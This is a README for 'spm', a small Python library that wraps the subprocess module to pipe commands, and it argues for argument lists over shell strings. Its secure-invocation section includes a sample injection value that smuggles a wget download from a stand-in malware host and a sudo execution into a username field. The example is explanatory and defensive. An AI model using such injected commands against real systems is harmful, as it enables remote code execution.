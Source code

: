 spm (SubProcessesManager)
=========================

This provides a very thin KISS layer on top of the python standard library's
``subprocess`` module. This library supports Python 2 and Python 3.

This makes it easy to pipe subprocesses, and pipe subprocesses input/output
to files.

It only has four rules:

* Simple programming interface
* Don't reimplement the wheel. (It tries uses the ``subprocess`` standard
  module as much as possible) 
* It only does one thing, and try to do it well.
* Use argument list instead of one command string.

Secure subprocess invokation
----------------------------

For those who don't understand the last rule. There are two ways to ways to
invoke subprocesses in python: One method is insecure, the other one is
secure.

.. code:: python

    import subprocess

    # Insecure subprocess invocation
    subprocess.check_call("echo foo", shell=True)
    # Secure subprocess invocation
    subprocess.check_call(['echo', 'foo'])

The second one is secure, because it prevents shell code injection. If we over
simplify, the first method, could be implemented this way:

.. code:: python

    def insecure_check_call(command_line):
        """
        Same as check_call(shell=True)
        """
        # Runs /bin/bash -c "the given command line"
        subprocess.check_call(['/bin/bash', '-c', command_line])


Let's use the following code as example:

.. code:: python

    import subprocess
    # Get insecure and unchecked data from a user
    from somewhere import get_login_from_user()

    def create_user():
        cmd = "sudo useradd '{}'".format(get_login_from_user())
        subprocess.check_call(cmd)

A user can inject code if they enter the login
``' || wget http://malware.example.com/malware -O /tmp && sudo /tmp/malware``.
Because this will execute:
``sudo user '' || wget [...] -O /tmp && sudo /tmp/malware``.

Why another library?
--------------------

.. image:: https://imgs.xkcd.com/comics/standards.png
   :alt: XKCD Comic strip: "How Standards Profilef
   :align: center

Here are the existing libraries:

* sh_: doing to much. The programming interface for piping commands is
  complex and bad.
* execute_: old, vulnerable to shell injection.

And many other are unmaintained or worse.

.. _sh: https://amoffat.github.io/sh/
.. _execute: https://pythonhosted.org/execute/


What do you mean by KISS?
-------------------------

KISS lost it original sense. Now it's just an hipster word which means "just
use my library because it's cool".

Here I mean KISS in its original sense: Keep It Simple and Stupid.

* Simple: this library is one file with less than 500 lines (excluding testing)
* Stupid: this library has two functions: ``pipe()`` and ``run()``
